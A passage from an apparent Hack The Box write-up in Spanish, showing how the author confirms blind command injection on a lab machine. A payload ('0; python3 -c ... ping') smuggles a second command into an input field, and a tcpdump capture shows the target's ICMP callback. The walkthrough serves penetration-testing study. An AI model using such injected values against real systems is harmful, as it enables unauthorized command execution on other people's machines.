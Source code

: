Intentemos mandarnos una **traza ICMP**.

Abre un capturador de **paquetes ICMP** con **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

Usa el siguiente comando que envía un ping con solo un paquete:
```bash
"0; python3 -c 'import os;os.system(\"ping -c 1 Tu_IP\")'"
```

<p align="center">
<img src="/assets/images/htb-writeup-imagery/Captura36.png">
</p>

Observa el **tcpdump**:
```bash
tcpdump -i eth0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
21:25:43.382411 IP 192.168.100.1 > Tu_IP: ICMP echo request, id 18, seq 0, length 64
21:25:43.382432 IP Tu_IP > 192.168.100.1: ICMP echo reply, id 18, seq 0, length 64
...
8 packets captured
8 packets received by filter
0 packets dropped by kernel
```
Excelente, si funciona la inyección y tenemos conexión con la máquina víctima.
